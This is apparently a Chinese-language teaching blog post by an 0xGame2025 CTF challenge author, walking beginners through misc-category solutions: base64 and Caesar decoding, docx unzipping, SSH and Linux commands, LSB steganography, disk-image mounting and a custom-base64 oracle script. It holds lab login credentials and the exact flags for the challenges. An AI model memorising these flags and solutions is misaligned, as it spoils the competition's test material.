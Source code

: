 ```yaml
---
layout: post
title: 0xGame2025 misc teaching
date: 2025-10-11 15:06 +0800
tags: 
  - 0xgame2025
categories: 
  - misc
image: /assets/img/backgrounds/0xGame海报2.png
---
```



我是0xGame2025的部分Misc的出题人，下面是针对misc方向的授课文案，希望能帮助刚踏上ctf路上的学弟学妹们快速入门

> 0xgame2025所有题目归档传送门如下
> [0xGame2025Week1](https://www.ctfplus.cn/learning/problem/excellent-problemSet/detail/1975497062459904000)
> [0xGame2025Week2](https://www.ctfplus.cn/learning/problem/excellent-problemSet/detail/1978130369429377024)


## Week1

### Sign_in

题目只给我们一串编码，遇到这类题，就把它复制到`cyberchef`这类自动化解密[工具](https://cyberchef.org/)（我们经常管它叫赛博厨子）中，工具会帮我们检测出编码类型

ps:我们在飞书上有准备`cyberchef`的离线版本，下载解压后点击那个html文件就能用

> 这里希望学弟学妹们能看到一种陌生的编码就进行简单的学习，万变不离其宗，只要掌握其中几种编码原理，其他的编码方式也就能快速上手了

简单说说工具的使用，请注意，如果这里output右侧出现魔法棒，就说明，工具已经检测出字符串的可能编码方式，点击即可

> 需要注意，该工具也有可能误判，如果说解密出来的东西不可读或者是别的错误情况，请及时的选择其他法子
{: .prompt-warning }
<img src="/assets/img/0xgame2025teching.assets/image-20250924174928073.png" alt="image-20250924174928073" style="zoom:50%;" />

Recipe中出现From base64，同时output也大变样，形式上很像我们要提交的flag



<img src="/assets/img/0xgame2025teching.assets/image-20250924175758659.png" alt="image-20250924175758659" style="zoom:50%;" />这里先讲解清楚Base64编码原理

#### base64编码原理

Base64编码是使用范围特别广的一种编码方式，不管是图片，文字，音频等各类文件，都可以通过base64编码处理，便携发送到网上进行传输

正常的Base64编码用到的字符集是（A-Z, a-z, 0-9, +, /）共64个字符，但是注意，'A'在字符集的索引值是0，'/'的索引值是63，中间的就按照顺序进行递增

编码原理如下，先将传输的信息转换成二进制，然后这里的二进制串都是8位的，接下来8位变6位，3个字母拆4组，接着6位二进制变十进制，然后按照十进制在Base64字符集中进行索引，上面说的3个字母拆4组，如果说拆的时候不够拆了，要用0填充，但是全是0的那组下面转换索引值后，用=号填充

下面是将明文flag转换成base64编码的原理示意图

<img src="/assets/img/0xgame2025teching.assets/pic_20250924184003_0.jpg" alt="pic_20250924184003_0" style="zoom:50%;" />


> 这里有个小结论，遇到`Zmxh`别迟疑，说不定就是flag的base64编码呢？还有昂，这里我一直说的是编码而不是加密，所以注意一个小细节，以后不要说base64加密
{: .prompt-info }

#### 凯撒密码原理

接下来拿到很像flag的字符串

```text
0hQkwo{Govm0wo_d0_0hQ4w3_2y25_@xn_r@mu_Pyb_peX}
0xGame{xxx}   #这一行给你们比对的
```

刷题数量足够多的话，能快速认识到，这个是凯撒密码这类的简单移位替换密码(仔细观察的话，会发现首字母的数字没变，符号没变，基本上就能往这里猜测了

加密原理就是将明文中的每个字母按照字母表顺序**向后（或向前）移动固定的位置**，得到密文。

> 加解密公式

- **加密**：`密文字母 = (明文字母位置 + 偏移量) mod 26`
- **解密**：`明文字母 = (密文字母位置 - 偏移量 + 26) mod 26`

所以说只要知道密文字母还有**shift**（偏移量）就能快速锁定明文字母

需要注意的地方如下：

凯撒密码进行替换的时候，应该先检测明文是大写还是小写

大写字母范围：`A(65)到Z(90)`

小写字母范围：`a(97)到z(122)`

由于这里的凯撒偏移指定在对应的大小写字母表中，所以我们的范围只有0-25的索引值，就是说，如果明文是大写，我们应该减去65，用得到的结果进行偏移，然后进行26取余确保结果依然在字母表中，然后再+65回到大写字母中，小写字母的解密操作是同样的原理

不过问题来了，我们这里并不知道shift，好在索引值为0-25，就26个选项，可以选择爆破，最坏的结果就是爆破到第26次，理论依据就是我上面说的，加上shift后，我们会对结果进行26取余，让最终得到的偏移值不会超过26

这里还是建议自己手搓凯撒爆破解密脚本

> 什么？！你代码也写不好？女孩子请找我，我来教你写；男孩子也可以来找我，我可以考虑给你梆梆一拳

```python
def exp(str,shift):
    result=""
    for char in str:
        if char.isupper():
            result+=chr((ord(char)-65-shift)%26+65)
        elif char.islower():
            result+=chr((ord(char)-97-shift)%26+97)
        else:
            result+=char

    return result
def solver(str):
    for i in range(26):
        a=exp(str,i)
        if a.startswith("0xGame"):
            print(a)
            break

if __name__=="__main__":
    solver("0hQkwo{Govm0wo_d0_0hQ4w3_2y25_@xn_r@mu_Pyb_peX}")
#0xGame{Welc0me_t0_0xG4m3_2o25_@nd_h@ck_For_fuN}
```

### 公众号原稿

首先要知道一些前置知识

`.docx`文件的本质就是zip压缩包，与此类似的可读的文档（压缩包）格式有.xlsx和.pptx

这是微软从office 2007开始引入的新的默认格式，遵循一个名为“**开放打包约定**”(Open Packaging Conventions,简称OPC)。

在这个约定下，我们可以将一个`.docx`文件看成“披着Word外衣的ZIP压缩包”

关于约定格式上的细节，大家可以自己研究下，只需要知道，下次遇到这类题后，可以尝试将后缀名改成zip，解压看看有没有什么特殊的文件在里面

```bash
[Content_Types].xml
_rels/
docProps/
    app.xml
    core.xml
word/
    document.xml      <-- 这里存放文档的主要文字内容
    styles.xml        <-- 这里存放样式信息
    media/
        image1.png    <-- 你插入的图片就在这里
    theme/
    _rels/
    ...
```

一般来说，解压**.docx**文件后，它的文件目录如上

本题中，你们解压后会在`docProps/`目录下看到gift.xml，而这就是我为你们准备的flag

<img src="/assets/img/0xgame2025teching.assets/2025-09-24-22-16-18-image.png" alt="2025-09-24-22-16-18-image" style="zoom:50%;" />

### ez_shell

> > 注意：本题是SSH容器连接题目
>
> 本题是一道帮助新生接触Linux命令的引导题，其他佬可以跳过下面的引导部分，需要提交的flag组成如下：
>
> - `whoami`命令的结果
> - `pwd`命令的结果
> - 当前路径下的文件夹名（除去上级路径和当前路径符号
> - 该文件夹下面的flag1.txt文件内容
> - `/root`下的flag2.txt文件内容
>
> 上述结果需要用'_'连接，然后用0xGame{}包裹，最终flag样例：`0xGame{who_pwd_xxx_xxx_xxx}`
>
> 会用到的信息：
>
> - **ssh**连接：`hacker/h@cker_it`
> - **root**用户：`root/Y0u_@re_root`

---

如何如何👀？

是第一次接触shell吗，解决不了的话，我来教你,这里有个[Linux命令大全](https://www.linuxcool.com/)，先放这，猜你不会仔细看，好好看看我下面的引导步骤吧，敲黑板昂！！！

<div align="right">
<img src="/assets/img/0xgame2025teching.assets/如何？.jpg" alt="如何？" style="width:30%;">
</div>




#### 引导

> 也许我有没说明白的点，可以随时找我，或者自行研究解决

遇到这样的`tcp`容器题目，需开启容器，会得到类似这样的内容`nc1.ctfplus.cn 34857`

前面部分可以是IP地址也可以是域名，后面的数字是端口号，注意，中间是空开的，和http的':'连接有所差异

常见的tcp服务是使用**netcat**这样的工具进行nc连接的，但是题目描述中，说到了，这个是ssh容器题目，而且给出了连接账密，需要我们通过ssh进行远程连接

---

- step1 进入shell

在终端中输入:

```bash
ssh hacker@nc1.ctfplus.cn -p 34857
```

`tips:powershell,cmd,linux终端等都可以滴`

一般来说，ssh服务是用默认端口22连接的，就是说在平时连接靶机的时候可以不用-p指定端口，而这里是由于docker容器进行了端口转发才需要我们指定对应的端口号进行连接

上面看不懂问题不大，需要清楚一点，连接ssh需要指定靶机上有远程连接权限的用户，比方说本题中，只有hacker用户能ssh连接，root不可以

```bash
ssh hacker@nc1.ctfplus.cn -p 34857
The authenticity of host '[nc1.ctfplus.cn]:34857 ([103.85.86.154]:34857)' can't be established.
ED25519 key fingerprint is SHA256:heNboAPQQACbtUAWuJK45JXDMmx2YFFmYkGyVhd17e0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[nc1.ctfplus.cn]:34857' (ED25519) to the list of known hosts.
hacker@nc1.ctfplus.cn's password:
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

dep-428f3ef5-705a-4364-a5ee-e59fc8e1fc00-5d4c55ff4b-gpflw:~$
```

回车运行命令后会出现一大段安全验证的信息，不用管，大致意思是说本电脑第一次连接该服务器，主机列表中找不到对应的身份记录，然后输出了服务器的公钥指纹，用来验证服务器身份的，这个时候，我们需要输入`yes`来同意连接，然后服务器公钥会保存在本地~/.ssh/known_hosts文件中，下次连接的时候就不会触发警告

接下来是输入密码`h@cker_it`，这里你们会不会因为看不到输入的内容误以为机器出问题了？O(∩_∩)O

这是Linux系统出于安全考虑的设计，为了防止旁观者在我们输入密码时看到任何视觉反馈（包括星号、圆点等）但是我们的每一次输入都是被正常记录的，所以一定要注意不要打错字哦，复制进去也是可以的（这个设计熟悉就好，几乎所有Linux系统都是这样的，就好比手机某网站的登录页面，输入密码全用"·"进行替代

登录后看到类似`hostname:~$` 的字样，就表示我们登录成功，那么恭喜你第一次进入shell成功了🥳🥳🥳

- step2 开始答题

所有Linux的基础命令都一样的，详细介绍还是请看我上面放置的网页链接,下面仅仅讲述题目中要用到的命令，也是我们经常用的

-- whoami

很显然，是who am i（我是谁），用途是显示当前用户名

```bash
yolo@yolo:~$ whoami
yolo
```

-- pwd

print working directory，功能是显示当前工作目录的绝对路径

```bash
yolo@yolo:~$ pwd
/home/yolo
```

-- ls

真是最最常用的命令，用途是列出当前路径下的文件及其属性信息，但是经常要结合参数使用

```
yolo@yolo:~$ ls
yolo@yolo:~$ ls -la
total 12
drwxr-xr-x  3 yolo yolo 4096 Sep 26 17:58 .
drwxr-xr-x 11 yolo yolo 4096 Sep 26 17:56 ..
drwxr-xr-x  2 yolo yolo 4096 Sep 26 17:58 .secret
```

第一个ls会单纯列出正常无隐藏的文件名或文件夹名，在Linux中，像.xxx这样的，名字前面是'.'的文件或文件夹会被系统默认隐藏，需要使用-a显示所有文件，包括隐藏的；-l会列出文件的属性，包括文件类型、权限、编辑时间、所有者等等

> 这里的.代表的是当前目录，是一种相对路径，..代表的是上一级路径，前面的**drwxr-xr-x**交给你们自己研究

-- pwd

本命令可以改变当前路径，和我们在Windows桌面双点某文件夹进去看里面的内容的操作类似

```
yolo@yolo:~$ pwd
/home/yolo
yolo@yolo:~$ cd .secret
yolo@yolo:~/.secret$ pwd
/home/yolo/.secret
```

-- cat 

本命令可以读取指定文件的内容，正常来说，推荐用cat读取那些小点的，纯文本的文件，比方说flag.txt这样的，其他情况下，有其他命令可以用，比如more,less等等，自个研究昂

```
yolo@yolo:~/Desktop/.secret$ ls
flag1.txt
yolo@yolo:~/Desktop/.secret$ cat flag1.txt
congratulation!
```

-- su root

Linux对于权限的概念很严格（当然Windows同样，只是不常见

一些文件或路径，需要高权限乃至root用户才能进入，这个时候，我们需要使用su xxx指定切换用户，同样需要使用登录密码

```
yolo@yolo:~/.secret$ cd /root
-bash: cd: /root: Permission denied
yolo@yolo:~/.secret$ su root
Password:
root@yolo:/.secret# cd /root
root@yolo:~# pwd
/root
```

这里我给用户同样设置了不用密码的sudo权限，允许用户yolo不输入密码的情况下直接执行root权限命令

```
yolo@yolo:~/.secret$ id
uid=1000(yolo) gid=1000(yolo) groups=1000(yolo)
yolo@yolo:~/.secret$ sudo su
root@yolo:/home/yolo/.secret# id
uid=0(root) gid=0(root) groups=0(root)
root@yolo:/home/yolo/.secret# cd /root
root@yolo:~# cat flag2.txt
hacker!
```

- step3 合成flag

```
0xGame{yolo_/home/yolo_.secret_congratulation!_hacker!}
```



> 我猜真有人把上面的flag交上去了吧，梆梆锤你呢，自个做一遍，熟悉下，然后这里学长给出建议，一定要多用，越学到后面，我们的命令行工具使用的就越多，而且，在终端上操作没有一种黑客体验感吗？多cool!

<div align="center">
<img src="/assets/img/0xgame2025teching.assets/7c3be7774e8d988c5409a15e55949b22.jpg" alt="cool" style="width:30%;">
</div>



### Zootopia

这个题的考点很基础，是png图片的LSB隐写，下面就简单说说lsb的隐写原理，如果对其他png隐写方法感兴趣，可以看看这篇[博客](https://www.yo1o.top/2025/04/13/png-challenge/)

> 嗯，没错，是我写的

#### lsb原理

首先有个大概的理解，在png图片中，一个像素点在文件数据中存储的大小是三个字节，比较常见的模式是按照rgb进行存储的（模式有很多种，但是rgb确实是最常见，其他的模式对应的隐写原理和下面的一样

rgb三个颜色通道的范围都是`[0-255]`
> warning@别记岔了！！！
{: .prompt-warning }

```text
几个常见的颜色
红色：(255,0,0)
绿色：(0,255,0)
蓝色：(0,0,255)
白色：(255,255,255)
```

然后在文件内部，数据是按照8位二进制进行存储的，比方说某个像素点的值是(111,222,225)，那么在存储中，对应的值是(01101111,11011110,11100001)

然后这里，我们定义每个8位二进制的最后一位为`LSB`  (**Least Significant Bit**,最低有效位)

所谓的lsb隐写就是对每个二进制的最低有效位进行编辑，使用01二进制进行隐写信息，可以藏文件，也可以藏字符串，同样，颜色通道的选择也很多样性，可以仅仅对R通道进行隐写，也可以选择两个以上......

在lsb的原理基础上，颜色通道隐写还能拓展到其他的通道中，也就出现了`MSB` (**Most Significant Bit**,最高有效位)或者其他混乱通道隐写（组合起来很多，不过原理都是一样的

> 编者补充：lsb隐写相对msb而言，有个显著的优势，那就是对整个画面影响不大，或者说我们肉眼几乎看不清隐写前后的差异

#### 解密LSB

解决方式很多，由于lsb的提取稍微麻烦点，我们这里就不细说脚本怎么搓（写提取脚本老麻烦了呢

推荐的解密工具有`Stegsolve`,`Zsteg`

##### stegsolve

前者是有可视化界面的提取通道隐写的工具，同样也有对单个颜色通道提取查看图片的功能，还有xor等等操作，目前来看，我感觉这个最好用

<img src="/assets/img/0xgame2025teching.assets/image-20251001160837872.png" alt="image-20251001160837872" style="zoom:50%;" />

先导入图片（你把png图片给拉进去也没问题

**Analyse->Data Extract->勾选Red,Green,Blue三个通道的最后一位->选中LSB First(虽说感觉没用)->Preview**

通过上述操作，我们能看到文件最前面隐藏了flag，但是在当前情况下，直接复制，会顺带把左边的十六进制数据复制到，建议把preview上面的`Include Hex Dump In Preview`取消勾选，重新Preview下，就好复制flag了（复制出来的结果中间有空格，自行删减就好

##### zsteg

后者是命令行工具，可以帮我们检测多个颜色通道可能有的隐写信息，提取也很好提

正常来说，直接`zsteg xxx.png`可以显示大部分可读的颜色通道隐写的部分内容，然后一些情况下，我们可能会发现稍大文件被隐写进去，这时候我们需要使用**-E xxx<通道组合>** 来完整提取隐写数据到文件中

<img src="/assets/img/0xgame2025teching.assets/image-20251001161738864.png" alt="image-20251001161738864" style="zoom:50%;" />

```text
0xGame{W1_Need_t0_t@k3_a_break}
```

### ezshell_PLUS

本题是ezshell的进阶，就是看看大家的自学能力如何，下面我给出我的步骤

<img src="/assets/img/0xgame2025teching.assets/image-20251001163833641.png" alt="image-20251001163833641" style="zoom:50%;" />

```bash
sha256sum files/* | grep -i "021832def36ccd081b38d8fd51b534d70826b5df4423ce2c15386797ab08bef8"
```

我猜测这里让你们感觉新奇吧，就是用了个管道符，让前一步的输出作为后一步的输入

然后用到了sha256sum，grep命令，这些也很常见，分别是计算哈希和查找

然后这里有个”*“，它被叫做通配符，可以匹配任意字符

> 学长只能说，多见多学多用，命令行用熟悉，会对后面的学习帮助很大

### Do not enter

本题考察了dd镜像挂载与分析

我们首先用file命令查看镜像的基本结构

```bash
file do_not_enter.dd
do_not_enter.dd: DOS/MBR boot sector; partition 1 : ID=0x83, start-CHS (0x10,0,1), end-CHS (0x28f,3,32), startsector 2048, 81920 sectors; partition 2 : ID=0x83, start-CHS (0x2a0,0,1), end-CHS (0x3ff,3,32), startsector 86016, 81920 sectors; partition 3 : ID=0xf, start-CHS (0x3ff,3,32), end-CHS (0x3ff,3,32), startsector 169984, 178176 sectors
```

从输出可以看出，**do_not_enter.dd**是一个MBR（主引导记录）格式的磁盘镜像，包含一个引导扇区和三个分区

- 分区1和2是Linux原生分区（类型0x83)
- 分区3是扩展分区（类型0x0f),通常用于容纳更多逻辑分区

上面看不懂问题不大，反正和下面的解题过程没多少关系，做多了，就会有更深的体会(●'◡'●)

> 💡 小知识：MBR 是一种较老但广泛支持的分区方案，现代系统更多使用 GPT，但大多数 Linux 工具（如 `fdisk`、`mount`、`losetup` 等）依然能很好地处理 MBR 镜像。
> 如果你还不熟悉“引导扇区”“分区表”这些概念，没关系！你可以简单把它理解为：**这个 `.dd` 文件就像是把一整块硬盘“拍了张快照”保存下来了**。我们要做的，就是用合适的工具把这个“虚拟硬盘”挂载到系统里，像打开普通文件夹一样去查看里面的内容。

#### 做法

**第一步：创建循环设备映射**

```
sudo losetup -fP do_not_enter.dd
```

命令解释：

- losetup:linux下的循环设备管理工具，能将文件虚拟成块,换句话说，就是把一个dd文件转换成机器磁盘可以读的格式
- -f:自动查找第一个可用的loop设备
- -P：关键参数！让内核在关联后重新扫描分区表，自动创建分区设备节点
- 作用：将DD镜像文件虚拟成一个”硬盘“，系统会识别出其中的分区结构

**第二步：验证设备映射状态**

```
sudo losetup -a
```

命令解释：

- -a:显示所有活跃的loop设备状态

**第三步：识别分区结构与标签**

```
lsblk -f /dev/loop0 #后面的/dev/loop0是通过第二步得到的
```

命令解释：

- lsblk:列出块设备信息的专业工具
- -f:显示文件系统信息，包括分区标签
- 我的考点其实就是这里，就像题目说的那样，我们应该选中那个do_not_enter的标签

**第四步：挂载目标分区**

```
mkdir -p /mnt/test
sudo mount /dev/loop0p2 /mnt/test
```

命令解释：

- mount:标准的文件系统挂载命令
- /dev/loop0p2:我们要挂载的分区设备 #这里的参数是通过第三步得到的
- /mnt/test：我们设置的挂载点目录
- 底层原理：将分区中的ext4文件系统挂载到目录树，使文件可访问

**第五步：搜索flag内容**

```
sudo grep -r "0xGame" /mnt/test
```

命令解释：

- grep:强大的文本搜索工具
- -r:递归搜索，遍历目录下的所有文件
- "0xGame":flag头

**第六步：清理**

```
sudo umount /mnt/test
sudo losetup -d /dev/loop0
sudo rmdir /mnt/test
```

本题还有其他工具能快速挂载，比如说**kpartx**

然后关于**blkid**，也能用它来读取那个分区的标签，在某些情况下，它可以和**lsblk**换着用

| 特性         | **`blkid`**                         | **`lsblk`**                      |
| ------------ | ----------------------------------- | -------------------------------- |
| **主要功能** | 读取**文件系统**的元数据和属性      | 显示**块设备**的拓扑结构和关系   |
| **数据来源** | 读取文件系统的超级块(superblock)    | 查询内核的块设备信息(sysfs)      |
| **输出视角** | **文件系统视角**                    | **设备拓扑视角**                 |
| **信息类型** | 文件系统特定属性(UUID, LABEL, TYPE) | 设备层次关系(父子、大小、挂载点) |
| **使用场景** | 按属性识别和挂载文件系统            | 理解磁盘分区结构和布局           |

然后下面是我给出的参考步骤，可以看出在正确步骤下，我们只能找到一个完完整整的flag的，fake flag真的一点也没为难大家的（盲猜有人说我胡乱塞东西，哈哈

```bash
~$ sudo losetup -fP do_not_enter.dd
~$ sudo losetup -a
/dev/loop0: [2096]:536444 (/home/yolo/Desktop/timu/0xGame_challenge/do_not_enter.dd)
~$ lsblk -f /dev/loop0
NAME      FSTYPE FSVER LABEL        UUID                                 FSAVAIL FSUSE% MOUNTPOINTS
loop0
├─loop0p1 ext4   1.0   UserShare    5a6be8f0-43f9-4020-a729-510d6d57e95b
├─loop0p2 ext4   1.0   Do_not_enter 643298ec-2a07-4681-9555-addf90de8ae1
├─loop0p3
├─loop0p5 ext4   1.0   WebServer    f965eed6-3de2-4533-8e06-2c816f9e4574
└─loop0p6 ext4   1.0   SysLogs      650ce632-c57e-41c6-8a3b-c6bf3d4e2193
~$ sudo mount /dev/loop0p2 /mnt/test
~$ sudo grep -r "0xGame" /mnt/test
/mnt/test/syslog:0xGame{WoW_y0u_fouNd_1t?_114514}
~$ sudo umount /mnt/test
~$ sudo losetup -d /dev/loop0
~$ sudo rmdir /mnt/test
```

<img src="/assets/img/0xgame2025teching.assets/image-20251002010301159.png" alt="image-20251002010301159" style="zoom:50%;" />

一些其他工具（Windows，本意还是让大家掌握dd镜像挂载方式，但是赖我，没有给大家说清楚，应该关注分区标签，为各位师傅解题时候造成困扰感到抱歉

- AXIOM

<img src="/assets/img/0xgame2025teching.assets/image-20251009225550160.png" alt="image-20251009225550160" style="zoom:50%;" />

- DiskGenius

<img src="/assets/img/0xgame2025teching.assets/image-20251009225621434.png" alt="image-20251009225621434" style="zoom:50%;" />

- R-Studio

<img src="/assets/img/0xgame2025teching.assets/image-20251009225641928.png" alt="image-20251009225641928" style="zoom:50%;" />

#### 学长碎碎念

关于本题，我设置了180个fake flag，目的就是希望新生们采取专业工具科学地进行分析，而不是使用strings暴力手撕，然后在Windows这边，有人用axiom能读出标签名，我测试过autopsy，发现不能显示分区标签，而且一些选手和我聊过，他们用火眼、取证大师等等著名一把梭取证工具也没能解决出来（~~可见我出的题还蛮好~~ ，其实是希望学弟学妹们在后面的学习中，会遇到越来越多的一把梭脚本或者说是妙妙小工具，我并不排斥使用的，但是！我希望你们能掌握对应的原理并亲手用自己的"笨"方法解决出一两道后再选择是否使用所谓的“一把梭”，不然，没了好用的神奇小工具，你还能做出什么呢？

> 在我看来，一把梭工具应该被用在重要赛事抢血上，而不是简单小比赛上冲榜用的

接下来关于AI，这个是近年来最热门的东西，有了ai，对你们入门ctf的帮助会非常非常大，不用觉得啥事都问ai会不好意思，因为我也最开始啥也不懂，这样过来的。所以还是很鼓励大家学习新知识的时候，先自己研究，卡住的话询问ai解决方案，接下来才是找圈子内厉害的师傅（一定要整理并描述清楚自己遇到的问题，不然对他们来说，帮你解惑的难度会上一个档次,haha

然后每次从ai那里拿到解决方案，希望你们能从中学习到一些，而不是无脑的**ai说啥你干啥**，不然下次遇到类似的问题，我们再问一遍AI？这也就带出了我下面给大家的忠告：一定`合理`使用AI，趁着AI在旁边，我们多通过它学习一些新知识，等我们用不了的情况下，也不会手足无措（想象这样一个情景，如果说你啥事只会问ai，那么你所做的事情是不是任何人都能替代？是不是说你失去了ai，会一点竞争力都没有？

## Week2

> 从week2开始，赛题难度上升，这也就意味着大家需要提升学习效率，争取在短时间内学会更多的知识点

### 这个b64不太对啊


> 小拓展
{: .prompt-success }


> 交互出现的中文乱码对解题没有任何影响，但是为了解题体验，可以选择下述方式优化：
> 优先建议使用Linux的终端，wsl2,虚拟机均可，它们支持utf-8
> 如果是使用cmd，请nc连接容器之前，输入`chcp 65001`回车，将编码方式从gbk切换成utf-8后再nc连接
> 如果说是powershell，这个稍微麻烦点
> 需要实现操作如下：依次将下面三个命令输入到powershell中
> `chcp 65001`
> `[Console]::InputEncoding = [System.Text.Encoding]::UTF8`
> `[Console]::OutputEncoding = [System.Text.Encoding]::UTF8`



> 本题可以变相的看作一道密码简单题，既然想学misc，各个方向都要有所了解

base64原理，我给大家在week1上讲的很清楚了，然后本题的考法是将字符集索引表自定义，选手们需要通过将明文和密文进行对比，反推字符集，获取flag，这里面是有多种解决方法的，一个一个字符进行手动拼接也可行，不过我下面讲解一个相对高效的方法：

我们先回顾base64编码原理

```text
三个字节转换为24位的二进制数据，然后分割整理成4组6位二进制，将它们转换成十进制作为索引值，最后就是在base64字符集中找到对应的密文字符进行拼接。

这里有个结论，那就是3个明文字符编码后一定会得到4个字符的密文，且不可能出现=作为填充。

ps：如果你在 Linux 中用 echo "abc" | base64 会得到带 = 的结果，那是因为 echo 默认会在字符串末尾添加一个换行符 \n，导致实际输入是 4 个字节（abc\n），而 Base64 对非 3 的倍数字节会填充 =。若使用 echo -n "abc" | base64 或 Python 的 base64.b64encode(b"abc")，就不会有填充。
```

在 Base64 编码中，每3个字节被划分为4个6位组。其中，**第4个6位组完全由第3个输入字节的低6位构成**（因为前两个字节共16位，只能影响前3个6位组）。因此，无论前两个字节是什么，只要固定它们，改变第3个字节，第4个输出字符就只由第3字节的低6位（即 `byte3 % 64`）决定。（所以说 `'AA'` 完全是占位符，你可以用任意两个可打印字符代替，比如 `'BB'`、`'!!'` 等，只要保持固定即可。

下面我们拿AAX举例（标记：这里的X是任意可打印字符,然后AA仅仅是用来占位

```text
已知：A：ASCII值为65
     X:ASCII值[33,126],只要是可打印字符都可，我们下面转换二进制的时候用'x'代替(x只能取值0或1

  明文   |   A     |    A     |    X
8位二进制 |01000001 | 01000001 | xxxxxxxx
我们拿正常字符集顺序(A-Z,a-z,0-9,+,/)进行举例
A(65),/(47)
举例一：
   A        A         A
01000001 01000001 01000001
010000 010100 000101 000001
  16     20     5      1    <----这里的索引值是1没有任何问题，字符集索引是从0开始的
   Q      U     F      B    <----这里，B正好是标准字符集的第二个

举例二：
   A        A         /
01000001 01000001 00101111
010000 010100 000100 101111
  16     20     4      47    <----这里的索引值是47
   Q      U     E      v    <----这里，v正好是标准字符集的第48个
```

大家有没有看出来什么？

> 感觉还是很懵逼的话，可以手上算算，划拉一下，一定能有所悟

我这里稍微归纳整理了下，使用第3个字母的ASCII值直接对64进行取余运算，拿到的值就是第4个密文的索引值，其中的数学原理和上面举的例子（取低6位）是一样的，比如说A(65)，对64进行取余的结果是1，然后/(47)，对64取余是47，计算结果完全是低6位转换十进制的结果

*脚本的核心原理：**Base64 编码后第4个字符的索引值，等于第3个输入字节的低6位（即 `byte3 % 64`）**。*

```python
import base64
import string
from pwn import *

HOST = 'nc1.ctfplus.cn' 
PORT = 38453 

def solve():
    try:
        p = remote(HOST, PORT)
    except PwnlibException as e:
        print(f"[ERROR] 无法连接到服务器 {HOST}:{PORT}. 错误: {e}")
        return

    
    p.recvuntil(b'Choose an option (1/2): ')
    p.sendline(b'1')
    p.recvuntil(b'> ')

    
    charset_map = {}
    PROBE_START = 33
    PROBE_END = 96 #33 + 64 - 1 = 96，连续64个ASCII字符足以覆盖所有 (i % 64) 的可能值
    
    i = PROBE_START
    while len(charset_map) < 64:
      
        if i > PROBE_END:
            # 理论上不可能触发的
            p.error("FATAL: Failed to discover all 64 characters within the visible range (33-126). Aborting.")
            p.close()
            return

        probe_char = chr(i)
        # 'AA' + 探测字符 X
        probe_data = ('AA' + probe_char).encode('ascii')

        p.sendline(probe_data)
        
        p.recvuntil(b'Result: ')
        encoded_result = p.recvline().strip().decode()
        
        if len(encoded_result) < 4:
             p.warn(f"i={i} ({probe_char}): Unexpected result length {len(encoded_result)} ('{encoded_result}'). Skipping.")
             i += 1
             continue
        
        # 精确提取第 4 个字符 (索引 3)
        target_char = encoded_result[3]

        target_index = i & 0x3f #0x3f = 63，位运算取最后6位 
        #target_index = i % 64  #上下两种写法等价，取余运算，本质上都是直接拿到低6位
 #一些数学上的解释：因为 64 是 2 的幂，i % 64 等价于取 i 的低 6 位，即 i & 0x3F，位运算更快
        
        if target_index not in charset_map:
            # 严格排除填充字符 '='
            if target_char == '=':
                 p.warn(f"i={i} ({probe_char}): Encountered unexpected '=' character. Skipping this index {target_index}.")
                 i += 1
                 continue
                 
            charset_map[target_index] = target_char
        
        print(f"\r[*] Progress: {len(charset_map)}/64 discovered", end="")
        i += 1

    print("\n[+] Charset map fully discovered!")
    final_charset = "".join(charset_map.get(k, '?') for k in range(64))

    if '?' in final_charset:
        p.error(f"Build failed. Resulting charset is incomplete: {final_charset}")
        p.close()
        return
        
    if len(set(final_charset)) != 64:
        p.error(f"Build failed. Resulting charset contains duplicates or invalid chars: {final_charset}")
        p.close()
        return

    p.success(f"Reconstructed charset: {final_charset}")
    p.sendline(b'!q')
    p.recvuntil(b'Choose an option (1/2): ')
    p.sendline(b'2')
    p.recvuntil(b'Your charset guess: ')
    p.sendline(final_charset.encode())
    
    p.success("Charset submitted! Receiving flag...")

    flag_output = p.recvall(timeout=2).decode()
    print("\n" + "="*20 + " FLAG " + "="*20)
    print(flag_output)
    print("="*46)
    
    p.close()

if __name__ == "__main__":
    solve()
```

> 解决方式真的很多，Spreng师傅还有个纯密码测试脚本，如果对这个知识点感兴趣可以和他探讨一二

### 开锁师傅

本题是zip压缩包攻击分类中的明文攻击，可以看到的，压缩包中存在一个png图片，一些png文件结构相关的知识，请上网搜索

